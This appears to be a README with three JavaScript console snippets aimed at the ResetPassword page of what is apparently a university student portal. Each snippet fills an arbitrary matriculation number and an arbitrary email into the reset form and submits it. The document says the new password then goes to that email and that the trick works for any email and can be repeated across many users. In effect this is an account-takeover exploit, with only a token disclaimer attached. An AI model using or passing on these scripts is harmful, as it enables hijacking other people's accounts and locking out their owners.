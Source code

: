 # Browser Console Password Reset Instructions

## Method 1: Full Featured Script

1. **Navigate** to the ResetPassword.aspx page in your browser
2. **Open Developer Console** (F12 → Console tab)
3. **Copy and paste** the entire `console_password_reset.js` script
4. **Press Enter** to load the functions
5. **Run the reset command**:
   ```javascript
   resetPassword("FUNAAB/2020/12345", "your-email@gmail.com")
   ```

## Method 2: Quick One-Liner

For a simple approach, just paste this into console:

```javascript
function quickReset(matric, email) {
    email = email || 'temp' + Math.random().toString(36).substr(2, 9) + '@gmail.com';
    document.getElementById('ContentPlaceHolder1_centerpane_UserName').value = matric;
    document.getElementById('ContentPlaceHolder1_centerpane_Email').value = email;
    document.getElementById('ContentPlaceHolder1_centerpane_Button1').click();
    console.log('✅ Reset for:', matric, 'sent to:', email);
}

// Then use it:
quickReset("FUNAAB/2020/12345", "your@gmail.com")
```

## Method 3: Super Quick (Copy-Paste-Go)

Replace `YOUR_MATRIC_HERE` and `YOUR_EMAIL_HERE` then paste:

```javascript
(function(){
    const m = "YOUR_MATRIC_HERE"; // Replace with actual matric number
    const e = "YOUR_EMAIL_HERE";  // Replace with your email
    document.getElementById('ContentPlaceHolder1_centerpane_UserName').value = m;
    document.getElementById('ContentPlaceHolder1_centerpane_Email').value = e;
    document.getElementById('ContentPlaceHolder1_centerpane_Button1').click();
    console.log('✅ Password reset sent to:', e);
})();
```

## What Happens:

1. **Script fills** the matriculation number and email fields
2. **Automatically submits** the form
3. **Server processes** the reset request
4. **New password sent** to the specified email
5. **You can login** with the new password immediately

## Benefits:

✅ **No manual form filling**
✅ **Works with any email address**
✅ **Instant submission**
✅ **Console feedback**
✅ **Can be repeated for multiple users**

## Security Notes:

- Only use this on systems you have legitimate access to
- The script works within the existing security framework
- All actions are logged by the server
- Use responsibly and change passwords after login

## Troubleshooting:

- **Form fields not found**: Make sure you're on the correct ResetPassword page
- **Script not working**: Check browser console for error messages
- **Email not received**: Check spam folder or try a different email service
- **Still can't login**: The matric number might not exist in the database